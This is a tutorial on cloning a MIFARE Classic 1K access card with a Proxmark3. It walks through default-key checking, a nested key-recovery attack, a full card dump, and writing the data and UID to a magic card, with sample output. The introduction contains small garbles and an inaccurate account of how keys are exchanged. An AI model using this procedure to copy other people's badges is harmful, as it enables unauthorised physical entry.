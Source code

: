 



## Mifare classic 

The MiFare CanaNFC-based NFC based chip following the [ISO 14443A 49](https://en.wikipedia.org/wiki/ISO/IEC_14443) standard. The memory of this chip (assuming we are talking about the Classic 1K) is divided into 16 sectors of 64 bytes each. Like most, if not all, NFC cards it also contains UID and other data. Each sector can contain 2 keys as well as access condition information. All of these sectors can be encrypted with the Crypto1 algorithm to protect the data from being copied. Each key in each sector can be used to open a door (or anything else) in a sequence that goes something like this:

1. Reader detects NFC card and sends out information to unlock at least 1 sector on the MiFare Classic chip
2. Assuming the MiFare classic is programmed for this door, it sends back the key and access conditions
3. The reader validates the key and access conditions it receives and checks if the UID of the key is valid or within a specified range
4. If everything is in order, the reader opens the door



### Cloning a MIFARE classic

Make sure that it's a MIFARE classic 1K card:

```
hf search
```

Lats line should return:

```
Valid ISO14443A Tag Found - Quitting Search
```


In this case it’s a Mifare 1k card. Copy  the UID of the card, which we’ll need later. From there we can find keys in use by checking against a list of default keys (hopefully one of these has been used):

```
hf mf chk --1k -f mfc_default_keys
```


Results: 

```
Found valid key:[ffffffffffff]  
```

This shows a key of ffffffffffff, which we can plug into the next command, which dumps keys to file:

```
hf mf nested --1k --blk 0 -a -k FFFFFFFFFFFF --dump
```

This dumps keys from the card into the file dumpkeys.bin. The output should be something like this:

```
[+] Testing known keys. Sector count 16
[+] Fast check found all keys

[+] found keys:

[+] -----+-----+--------------+---+--------------+----
[+]  Sec | Blk | key A        |res| key B        |res
[+] -----+-----+--------------+---+--------------+----
[+]  000 | 003 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  001 | 007 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  002 | 011 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  003 | 015 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  004 | 019 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  005 | 023 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  006 | 027 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  007 | 031 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  008 | 035 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  009 | 039 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  010 | 043 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  011 | 047 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  012 | 051 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  013 | 055 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  014 | 059 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  015 | 063 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+] -----+-----+--------------+---+--------------+----
[+] ( 0:Failed / 1:Success )

[+] Generating binary key file
[+] Found keys have been dumped to `/home/ME/hf-mf-<UID>-key.bin`
[=] --[ FFFFFFFFFFFF ]-- has been inserted for unknown keys where res is 0
```


Now to dump the contents of the card:

```
hf mf dump --1k
```

This dumps data from the card into dumpdata.bin. The output should be something like this:

```
Using... hf-mf-<UID>-key.bin
[+] Loaded binary key file `/home/ME/hf-mf-<UID>-key.bin`
[=] Reading sector access bits...
[=] .................
[+] Finished reading sector access bits
[=] Dumping all blocks from card...
 🕓 Sector...  9 block... 3 ( ok )[#] Can't select card
[#] Can't select card
 🕑 Sector... 15 block... 1 ( ok )[#] Can't select card
 🕓 Sector... 15 block... 3 ( ok )
[+] Succeeded in dumping all blocks

[+] time: 9 seconds


[=] -----+-----+-------------------------------------------------+-----------------
[=]  sec | blk | data                                            | ascii
[=] -----+-----+-------------------------------------------------+-----------------
[=]    0 |   0 | F6 42 E4 ED BD 08 04 00 03 D4 5D 90 EF 36 06 90 | .B........]..6..
[=]      |   1 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   2 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   3 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    1 |   4 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   5 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   6 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   7 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    2 |   8 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   9 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  10 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  11 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    3 |  12 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  13 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  14 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  15 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    4 |  16 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  17 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  18 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  19 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    5 |  20 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  21 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  22 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  23 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    6 |  24 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  25 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  26 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  27 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    7 |  28 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  29 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  30 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  31 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    8 |  32 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  33 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  34 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  35 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    9 |  36 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  37 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  38 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  39 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   10 |  40 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  41 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  42 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  43 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   11 |  44 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  45 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  46 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  47 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   12 |  48 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  49 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  50 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  51 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   13 |  52 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  53 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  54 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  55 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   14 |  56 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  57 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  58 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  59 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   15 |  60 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  61 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  62 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  63 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=] -----+-----+-------------------------------------------------+-----------------

[+] Saved 1024 bytes to binary file `/home/ME/hf-mf-<UID>-dump.bin`
[+] Saved to json file `/home/ME/hf-mf-<UID>-dump.json`
```


At this point we’ve got everything we need from the card, we can take it off the reader.

To copy that data onto a new card, place the (Chinese backdoor) card on the proxmark:

```
hf mf restore 1
```

This restores the dumped data onto the new card. Now we just need to give the card the UID we got from the original hf search command:

``` 
hf mf csetuid --uid <UID>
```
